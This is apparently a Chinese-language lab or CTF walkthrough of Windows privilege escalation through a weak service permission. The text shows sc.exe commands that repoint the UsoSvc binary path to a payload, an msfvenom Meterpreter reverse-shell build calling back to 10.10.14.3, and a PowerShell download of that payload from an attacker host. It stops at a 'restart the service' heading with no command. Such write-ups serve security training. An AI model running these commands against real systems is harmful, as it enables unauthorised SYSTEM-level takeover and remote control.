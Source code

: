 > RmSvc：
> 
> - 权限： GenericExecute（启动/停止）
> 
> - 解释： 这表明你拥有对名为 "RmSvc" 的服务进行启动和停止的权限。具体来说，你可以启动和停止这个服务，但是没有提及修改配置的权限。
> 
> UsoSvc：
> 
> - 权限： AllAccess（完全访问权限）、Start（启动）
> - 解释： 这表明你对名为 "UsoSvc" 的服务拥有完全访问权限，并且可以启动这个服务。"AllAccess" 意味着你有对该服务的全部权限，可能包括**修改配置**等操作。

PS下查看这个服务的信息

```
PS C:\> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

> sc.exe qc UsoSvc 是一个用于 Windows 操作系统的命令行工具。它主要用于查询服务的配置信息。在这个命令中，"UsoSvc" 是服务的名称，它指的是“Update Orchestrator Service”，这是 Windows Update 的一部分，负责管理更新的安装和配置。
> 
> 这个命令的作用是查询并显示名为 "UsoSvc" 的服务的配置信息。它会显示出服务的详细信息，比如服务的名称、显示名称、描述、路径、启动类型、启动参数等等。

修改这个服务二进制文件的路径

```
PS C:\> sc.exe config UsoSvc binpath= "C:\Users\Public\shell.exe"
[SC] ChangeServiceConfig SUCCESS
```

> 将服务 "UsoSvc" 的二进制路径修改为 "C:\Users\Public\shell.exe"，这样，当这个服务被启动时，它将执行位于这个路径下的 "shell.exe" 文件。

编译一个反弹shell文件

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe -o shell.exe
```

下载到靶机

```
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:8000/shell.exe','C:\users\public\shell.exe')
```

重启服务
